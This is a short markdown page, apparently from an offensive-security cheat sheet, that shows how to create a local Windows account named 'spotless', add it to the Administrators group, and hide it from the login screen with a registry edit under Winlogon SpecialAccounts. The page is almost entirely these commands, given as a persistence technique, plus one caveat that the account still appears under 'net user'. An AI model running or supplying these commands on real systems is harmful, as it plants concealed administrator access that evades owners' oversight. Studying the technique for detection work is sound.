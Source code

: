# Create & Hide New User

Creating User and Adding to Local Administrators

```
net user spotless spotless /add & net localgroup Administrators spotless /add
```

Hide Newly Created Local administrator

{% hint style="danger" %}
This will only hide the username from winlogon screen (windows login GUI screen),  but the user can be detected with <mark style="color:green;">`net user`</mark>` ``` command
{% endhint %}

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v spotless /d 0 /f
```
